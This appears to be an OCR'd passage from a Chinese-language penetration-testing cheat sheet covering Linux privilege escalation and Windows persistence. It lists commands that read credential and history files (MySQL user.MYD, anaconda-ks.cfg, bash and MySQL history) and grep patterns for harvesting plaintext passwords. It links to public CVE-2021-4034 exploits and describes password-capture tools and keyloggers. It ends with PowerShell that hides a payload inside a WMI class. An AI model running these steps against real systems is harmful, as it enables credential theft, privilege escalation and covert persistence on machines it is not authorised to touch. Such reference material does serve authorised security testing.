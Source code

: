 ```ABAP
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```

#### CVE-2021-4034
```
https://github.com/berdav/CVE-2021-4034
https://github.com/arthepsy/CVE-2021-4034
```

#### 不安全的文件/文件夹权限配置

```apl
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

#### 找存储的明文用户名，密码

```apl
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joomla
```



# 13.权限维持

## Windows

##### 1、密码记录工具

WinlogonHack WinlogonHack 是一款用来劫取远程3389登录密码的工具，在 WinlogonHack 之前有 一个 Gina 木马主要用来截取 Windows 2000下的密码，WinlogonHack 主要用于截 取 Windows XP 以及 Windows 2003 Server。 键盘记录器 安装键盘记录的目地不光是记录本机密码，是记录管理员一切的密码，比如说信箱，WEB 网页密码等等，这样也可以得到管理员的很多信息。 NTPass 获取管理员口令,一般用 gina 方式来,但有些机器上安装了 pcanywhere 等软件，会导致远程登录的时候出现故障，本软件可实现无障碍截取口令。 Linux 下 openssh 后门 重新编译运行的sshd服务，用于记录用户的登陆密码。

##### 2、常用的存储Payload位置

**WMI** : 存储：

```apl
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('Command' , $Payload)
$StaticClass.Put() 
```
